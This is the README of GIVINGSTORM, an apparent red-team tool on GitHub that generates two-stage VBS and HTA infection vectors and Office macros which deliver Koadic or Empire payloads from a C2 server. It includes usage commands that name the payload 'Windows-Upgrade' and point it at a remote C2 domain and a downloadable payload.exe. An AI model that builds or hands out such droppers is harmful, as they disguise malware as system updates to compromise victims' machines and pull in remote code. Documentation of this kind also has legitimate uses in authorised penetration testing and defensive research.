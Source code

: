 # GIVINGSTORM
[[![MIT license](https://img.shields.io/badge/License-MIT-blue.svg)](https://lbesson.mit-license.org/)
[![PyPI pyversions](https://img.shields.io/pypi/pyversions/ansicolortags.svg)](https://pypi.python.org/pypi/ansicolortags/)
[![Maintenance](https://img.shields.io/badge/Maintained%3F-yes-green.svg)](https://GitHub.com/Naereen/StrapDown.js/graphs/commit-activity)

The beginnings of a C2 framework. Currently without all the C2 stuff so far. Generates
a dual stage VBS infection vector, and a dual stage HTA infection vector. The variables take
into account C2 addresses, Koadic/Empire payloads, and a few delivery mechanisms. The payload
files are output to an aptly named directory "Payloads" that is created if not already present.

# Installation & Usage
GIVINGSTORM is a breeze to use. Simply clone the directory, and cd into it.

For the HTA payload:
  `python3 givingstorm.py -n Windows-Upgrade -p b64encodedpayload -c amazon.com/c2/domain`

# HTA Example
![alt text](https://github.com/LiveGray/GIVINGSTORM/blob/master/hta.png)

For the Macro Subroutine:
  `python3 givingstorm.py -n Windows-Upgrade -e amazon.com/final/payload.exe`

# Macro Example
![alt text](https://github.com/LiveGray/GIVINGSTORM/blob/master/macro.png)
